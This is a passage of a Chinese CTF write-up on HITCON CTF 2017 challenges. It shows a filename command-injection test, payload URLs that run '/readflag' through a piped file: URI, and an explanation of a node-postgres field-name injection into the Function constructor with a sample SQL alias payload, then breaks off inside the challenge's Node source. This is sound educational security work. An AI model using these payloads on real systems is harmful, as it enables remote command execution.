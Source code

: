 综合看起来像是一个把文件名拼接入命令导致的命令执行。

我们可以测试一下
```
root@iZ285ei82c1Z:~/test# GET 'file:id|'
uid=0(root) gid=0(root) groups=0(root)
```

成功执行命令了，那么思路就清楚了，我们通过传入命令文件名和命令来
执行。

payload来自rr的博客
```
http://13.115.136.15/?url=file:bash%20-c%20/readflag|&filename=bash%20-c%20/readflag|
http://13.115.136.15/?url=file:bash%20-c%20/readflag|&filename=bash%20-c%20/readflag|
http://13.115.136.15/sandbox/c36eb1c4372f5f8131542751d486cebd/bash%20-c%20/readflag%7C
```

# sql so hard #

题目是nodejs的注入导致的命令执行漏洞，漏洞利用链非常精巧，首先我们需要了解一个漏洞，整个漏洞@Phith0n师傅发了很详细的分析

[https://paper.seebug.org/438/](https://paper.seebug.org/438/)

简单描述漏洞来说，在node-postgres里，执行完数据库查询语句，会返回数据的字段名字和数量，node后端会把字段的名字经过不完整的转义就拼接进入了Function类，导致了命令执行，这个命令执行在前端会导致xss，在后端就会导致命令执行。

这里的转义不完全指的就是，只转义了单引号，但是没转义反斜杠，导致可以传入`\'`，那么`\'`会变成`\\'`,单引号就逃逸出来了。

假设我们执行
```
sql = `SELECT 1 AS "\\'+console.log(process.env)]=null;//"`
```

那么传入Function的内容就是
```
this['\\'+console.log(process.env)]=null;//'] = rowData[0] == null ? null : parsers[0](rowData[0]);
```

前后都有相应的闭合，代码就被执行了。

那么我们回到题目里，代码如下：
```
#!/usr/bin/node

/**
 *  @HITCON CTF 2017
 *  @Author Orange Tsai
 */

const qs = require("qs");
const fs = require("fs");
const pg = require("pg");
const mysql = require("mysql");
const crypto = require("crypto");
const express = require("express");

const pool = mysql.createPool({
    connectionLimit: 100, 
    host: "localhost",
    user: "ban",
    password: "ban",
    database: "bandb",
});

const client = new pg.Client({
    host: "localhost",
    user: "userdb",
    password: "userdb",
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/c1c9vp7cvb2z2ausx5biqr84/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/u3360luwi2cwwqdsukt59ckv/image.png